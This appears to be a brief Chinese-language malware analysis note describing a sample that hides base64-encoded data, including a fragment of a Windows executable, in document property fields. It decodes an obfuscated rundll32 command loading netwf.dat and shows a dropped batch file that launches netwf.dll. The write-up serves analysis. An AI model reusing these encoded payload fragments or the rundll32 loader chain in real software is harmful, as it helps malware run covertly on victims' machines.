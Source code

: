 
Category="6FKF////tsgAAADoR4X///+2zAAAAOg8hf//g8RA/7bQAAAA6C6F////trgAAADoI4X///+22AAAAOgYhf///7bcAAAA6A2F////tuAAAADoAoX///+25AAAAOj3hP///7boAAAA6OyE////tuwAAADo4YT///+21AAAAOjWhP///7bwAAAA6MuE////tvQAAADowIT///+2+AAAAOi1hP///7b8AAAA6KqE////tgABAADon4T///+2BA



Hyperlink_base="T+AAAAAAAAAAAAAFYBAQAQ0AAA5P4AAAAAAAAAAAAAmAEBAADQAAAYAAEAAAAAAAAAAADSAQEANNEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAhgEBAHYBAQBkAQEAAAAAAPAAAQAEAQEA6AABACQBAQA6AQEA0gABAMAAAQC0AAEAqAABAJwAAQCCAAEAdAABAGIAAQBUAAEARAABADgAAQAUAQEAJAABAL4FAQCuBQEAngUBAJAFAQDeAQEA



Comments="FUTBiHXYi/joBjehYkAcOf913OhKKoQBLGAD6B2AAYuKNYFeWeAe2Goroo4Y3OgFgQQgAtxqLAMgAuANaAAAgABWAcEO5P914Ff/FUJUAWXwVuiYYBP/MHXs6NMBX0EG7GqAAGoAVv8VUAAEIcAMTINl9KAd8GohwW/0x0XwInFoEygAACCABEzBcH30geE1xkX/NHQJgAESlGAYdQTAATJqAQiNRf9ACvjojf0LgkmJo1NBo8hQ6I4TQE



base64= "TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA4AAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1vZGUuDQ0KJAAAAAAAAACseA3F6BljlugZY5boGWOWh2/IlsEZY5aHb/2W+BljlodvyZabGWOW4WHwluMZY5boGWKWjhljlodvzJ ..... 没显示完



bin 字符串在我的解密下 会崩溃只能跳过 单步 直接 获取 结果



path根路径

C:\Users\cong\AppData\Local



cmdline "C:\###Win###dow###s\Sy###ste###m32\run###dll32#.exe "C:\Users\cong\AppData\Local\netwf.dat"###,KlpSvc"



cmdline  replace 后

C:\Windows\System32\rundll32.exe "C:\Users\cong\AppData\Local\netwf.dat",KlpSvc



KlpSvc为参数



netwf.dat 在执行后 生成



netwf.bat 与 netwf.dll 



通过 

提取了生成了的 netwfbat 样本

```
set path = "%localappdata%\netwf.dll"
if NOT exist %path % (exit)
start rundll32.exe %path %,#1
```

执行DLL
